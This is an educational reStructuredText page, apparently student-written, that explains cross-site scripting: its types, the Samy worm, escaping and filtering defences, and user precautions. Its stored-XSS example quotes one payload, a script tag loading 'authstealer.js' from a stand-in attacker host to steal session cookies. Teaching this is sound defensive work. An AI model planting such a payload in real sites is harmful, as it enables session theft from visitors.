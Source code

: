Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
  to gather information from the users. 

* Most of the danger lies on the users of the sites, as the code targets their information 
  and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

* Stored xss is "stored", or imbedded, on the website itself and steals data every time 
  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
  and can be the more dangerous of the two types. [xss-attacks]_

* Reflective xss is stored in a link embedded in the website that the user has to 
  click on to activate. [xss-attacks]_ 

* XSS attacks have been around since the start of the web, first becoming a problem when 
  JavaScript langauage was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed it, and quickly 
  multiplied exponentially, adding just over one million friend requests within 
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - most common protection [xss-attacks]_ 
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any untrusted or un-validated data [xss_cheat_sheet]_
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
  to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  This is a stored in the website, and every time someone visits the page, they have their 
  session cookies stolen


	* Harder for hackers to attempt, because they must find a highly trafficked site that 
	  also has a security hole. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, but the user would have to click on the link 
  to activate the code. 


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. XSS Attacks: Cross-site Scripting Exploits and Defense. N.p.: Syngress, 2007. Print. 

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

